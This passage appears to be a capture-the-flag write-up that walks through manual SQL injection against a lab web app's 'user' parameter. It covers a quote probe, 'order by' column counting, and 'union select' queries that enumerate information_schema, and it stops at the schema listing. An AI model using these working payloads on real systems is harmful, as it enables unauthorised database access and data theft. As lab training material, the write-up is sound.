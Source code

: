 Got the first flag:

![image](https://user-images.githubusercontent.com/114166939/232116820-b3ed3d55-4cfd-415c-b758-86d5308e4c77.png)

Now let's click on the system user:

![image](https://user-images.githubusercontent.com/114166939/232224601-1d468d6d-be9f-4319-863a-329525949f36.png)

This page use GET method and maybe vulnerable to sqli in the "user" parameter - "http://10.10.243.219/admin?user=1".

The easiest way to test the url is to add ' and check its response:
```url
http://10.10.243.219/admin?user=1'
```

![image](https://user-images.githubusercontent.com/114166939/232117835-abc95af0-4082-4703-929a-afa263519e99.png)

It's probably vulnerable, also it written that this website use MySQL server!

Let's try find out how much columns are in the tables of this DataBase with SQL injection,
I'll add the "order by" payload to the url:
```url
http://10.10.243.219/admin?user=1 order by 1-- -
```

It responded the same - so I'll increase the column numbers until the website will responds differently:

```url
http://10.10.243.219/admin?user=1 order by 2-- -
http://10.10.243.219/admin?user=1 order by 3-- -
http://10.10.243.219/admin?user=1 order by 4-- -
http://10.10.243.219/admin?user=1 order by 5-- -
```

5 columns make an error, so the conclusion is that the table has 4 columns:

![image](https://user-images.githubusercontent.com/114166939/232224802-6d24f723-e9b9-4ae0-9f13-2ea59de55475.png)

Let's find out if one of them is printable on the page with 'union select' sql payload:

(I'll add impossible value to the user parameter so it'll print only what I choose to print)
```url
http://10.10.243.219/admin?user=-999 union select 1,2,3,4-- -
```

![image](https://user-images.githubusercontent.com/114166939/232225067-efa9a623-c4a5-4e86-8d25-47a85a4b6668.png)

The first and second values are printable!

I'lll use the default database "information_schema" to get all details:

For start I'm going to ask the database what schemas are in there with the command:
```url
http://10.10.243.219/admin?user=-999 union select group_concat(schema_name),2,3,4 from information_schema.schemata-- -
```
